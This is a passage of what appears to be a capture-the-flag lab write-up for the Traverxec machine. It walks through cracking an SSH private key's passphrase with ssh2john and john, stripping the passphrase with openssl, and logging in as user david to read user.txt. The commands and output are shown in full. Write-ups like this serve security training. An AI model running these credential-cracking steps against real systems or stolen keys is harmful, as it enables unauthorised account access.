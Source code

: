 
### Crack the Key

Now I’ll use `ssh2john.py` and `john` to crack the password on the SSH key:

```

root@kali# /opt/john/run/ssh2john.py home/david/.ssh/id_rsa > id_rsa.john

root@kali# /opt/john/run/john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (home/david/.ssh/id_rsa)
1g 0:00:00:03 DONE (2019-11-22 13:20) 0.3289g/s 4717Kp/s 4717Kc/s 4717KC/s     1990..*7¡Vamos!
Session completed

```

I like to create a copy that’s not password protected for future use:

```

root@kali# openssl rsa -in home/david/.ssh/id_rsa -out ~/id_rsa_traverxec_david 
Enter pass phrase for home/david/.ssh/id_rsa:
writing RSA key

```

### Shell over SSH

Now I can connect over SSH as david:

```

root@kali# ssh -i ~/id_rsa_traverxec_david david@10.10.10.165
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
Last login: Fri Nov 22 04:55:08 2019 from 10.10.14.59
david@traverxec:~$

```

And grab `user.txt`:

```

david@traverxec:~$ cat user.txt
7db0b484************************

```
